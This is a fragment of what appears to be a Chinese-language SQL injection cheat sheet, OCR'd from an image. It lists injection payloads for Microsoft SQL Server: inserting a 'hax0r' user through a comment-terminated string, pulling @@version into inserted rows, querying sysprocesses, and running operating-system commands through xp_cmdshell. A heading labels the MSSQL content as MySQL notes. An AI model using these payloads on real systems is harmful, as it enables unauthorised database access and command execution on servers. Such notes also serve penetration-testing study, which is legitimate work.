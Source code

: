     在遇到union错误之前会先遇到convert()错误，所以先使用convert()再用union

* 简单的注入{MSO}

    + '; insert into users values( 1, 'hax0r', 'coolpass', 9 )/*

* 有用的函数、信息收集、内置程序、大量注入笔记

    + @@version(MS)

    数据库的版本。这是个常量，你能把它当做字段来SELECT，而且不需要提供表名。同样的你也可以用在INSERT/UPDATE语句里面，甚至是函数里面。

    + INSERT INTO members(id, user, pass) VALUES(1, ''+SUBSTRING(@@version,1,10) ,10)

### 4. MySQL笔记

* sample

    + SELECT * FROM master..sysprocesses /*WHERE spid=@@SPID*/

    + DECLARE @result int; EXEC @result = xp_cmdshell 'dir *.exe';IF (@result = 0) SELECT 0 ELSE SELECT 1/0

    HOST_NAME() IS_MEMBER (Transact-SQL)
    IS_SRVROLEMEMBER (Transact-SQL)
    OPENDATASOURCE (Transact-SQL)

    + INSERT tbl EXEC master..xp_cmdshell OSQL /Q"DBCC SHOWCONTIG"
